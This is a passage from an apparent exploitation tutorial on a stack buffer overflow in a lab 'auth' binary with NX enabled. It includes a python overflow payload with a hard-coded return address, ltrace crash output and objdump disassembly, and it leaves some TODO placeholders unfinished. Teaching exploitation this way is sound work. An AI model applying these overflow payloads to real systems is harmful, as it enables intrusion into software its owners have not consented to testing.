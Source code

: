 Let's take a look at the program headers and confirm that the stack is no longer
executable. We only have read and write (RW) permissions for the stack area.
The auth binary requires the `libssl1.0.0:i386` Debian package to work. You can
find `libssl1.0.0:i386` Debian package
[here](https://packages.debian.org/jessie/i386/libssl1.0.0/download).
TODO: dldeaza

First, let's check that *NX* bit we mentioned earlier:
```
$ checksec auth
    [...]
    NX:       NX enabled
    [...]
```

For completeness, lets check that there is indeed a buffer (stack) overflow vulnerability.
```
$ python2.7 -c 'print "A" * 1357' | ltrace -i ./auth
TODO
```

Check the source file - the buffer length is 1337 bytes. There should be a base
pointer and the `main()`'s return address just before it on the stack. There is
also some alignment involved, but we can easily try a few lengths to get the
right position of the return address. Seems to be 1337 + 16 followed by the
return address for this case. You can, of course, determine the distance between
the buffer's start address and the frame's return address exactly using objdump,
but we will leave that as an exercise.

We can now jump anywhere. Unfortunately, we cannot put a shellcode in the buffer
and jump into it because the stack is non-executable now. Lets try it with a few
`NOP`s. Our buffer's address is `0xbfffee63` (see the `gets()` call).
```
$ python2.7 -c 'print "\x90\x90\x90\x90" + "A" * 1349 + "\x63\xee\xff\xbf"' | ltrace -i ./auth
[0x80484f1] __libc_start_main(0x80486af, 1, 0xbffff454, 0x80486c0, 0x8048730 <unfinished ...>
[0x8048601] malloc(20)                                                                            = 0x0804b008
[0x80485df] puts("Enter password: "Enter password: 
)                                                              = 17
[0x80485ea] gets(0xbfffee63, 0x8048601, 0x80486af, 0xb7cdecb0, 0xb7cdecb7)                        = 0xbfffee63
[0x8048652] memset(0x0804b008, '\000', 20)                                                        = 0x0804b008
[0x8048671] SHA1(0xbfffee63, 137, 0x804b008, 4, 0x90000001)                                       = 0x804b008
[0xbfffee63] --- SIGSEGV (Segmentation fault) ---
[0xffffffff] +++ killed by SIGSEGV +++
```

Guess what? It didn't work... How about we try to jump to some existing code?
First, let's take a look at the `check_password()` function.
```
$ objdump -M intel -d auth | grep -A 15 "<check_password>:"
080485ec <check_password>:
 80485ec:	55                   	push   ebp
 80485ed:	89 e5                	mov    ebp,esp
 80485ef:	81 ec 58 05 00 00    	sub    esp,0x558
 80485f5:	c7 04 24 14 00 00 00 	mov    DWORD PTR [esp],0x14
 80485fc:	e8 9f fe ff ff       	call   80484a0 <malloc@plt>
 8048601:	a3 38 a0 04 08       	mov    ds:0x804a038,eax
 8048606:	a1 38 a0 04 08       	mov    eax,ds:0x804a038
 804860b:	85 c0                	test   eax,eax
 804860d:	75 18                	jne    8048627 <check_password+0x3b>
 804860f:	c7 04 24 76 87 04 08 	mov    DWORD PTR [esp],0x8048776
 8048616:	e8 95 fe ff ff       	call   80484b0 <puts@plt>
 804861b:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 8048622:	e8 99 fe ff ff       	call   80484c0 <exit@plt>
```